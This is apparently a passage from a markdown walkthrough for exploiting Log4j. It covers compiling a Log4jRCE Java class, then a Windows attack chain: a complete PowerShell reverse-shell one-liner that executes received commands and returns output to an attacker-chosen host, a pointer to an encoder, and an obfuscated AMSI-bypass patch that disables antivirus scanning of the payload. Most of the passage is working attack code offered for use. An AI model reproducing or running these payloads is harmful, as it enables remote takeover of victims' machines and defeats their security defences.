 To compile the java code
```
javac Log4jRCE.java
```
- This will give us Log4jRCE.class which would be sent to any server upon a request to the http server.

### Reverse shell on windows machine with firewall, defender, and antivirus turned off

Firstly, we need a command for the reverse shell
```
$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
- https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

Secondly, we need a way to encode it. This tool works well.
- https://raikia.com/tool-powershell-encoder/
  - Switch the address and port from the gist to the address and port you want the victim to connect to (The attacking machine)

Lastly, we want to put a snippet that will stop the amsi interface from detecting our malicious intentions.
```
#Rasta-mouses Amsi-Scan-Buffer patch \n
$pnlol = @"
using System;
using System.Runtime.InteropServices;
public class pnlol {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr vesvmg, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $pnlol

$okkigsm = [pnlol]::LoadLibrary("$([CHAR]([BYTe]0x61)+[chAR]([bYte]0x6d)+[Char]([bYTe]0x73)+[Char]([bytE]0x69)+[cHAr]([BYTe]0x2e)+[ChAR](100*70/70)+[CHAR]([ByTe]0x6c)+[CHaR]([Byte]0x6c))")
$rfjypi = [pnlol]::GetProcAddress($okkigsm, "$([chAR](47+18)+[CHAR]([ByTe]0x6d)+[ChaR](115*22/22)+[cHAr]([BYTe]0x69)+[CHar](69+14)+[chaR](99+56-56)+[CHAr]([BYTE]0x61)+[chAR]([BYTe]0x6e)+[ChAR](66+54-54)+[chaR]([byTE]0x75)+[CHar]([BYte]0x66)+[ChAR](102)+[cHar]([BYte]0x65)+[CHAR](114+56-56))")
$p = 0
[pnlol]::VirtualProtect($rfjypi, [uint32]5, 0x40, [ref]$p)
$oifx = "0xB8"
$omcv = "0x57"
$qmvq = "0x00"
$gluw = "0x07"
$cwaj = "0x80"
$bvge = "0xC3"
$isvpg = [Byte[]] ($oifx,$omcv,$qmvq,$gluw,+$cwaj,+$bvge)
[System.Runtime.InteropServices.Marshal]::Copy($isvpg, 0, $rfjypi, 6)
```
- http://amsi.fail/
  - Specifically grabbed the Rasta-mouses Amsi-Scan-Buffer patch
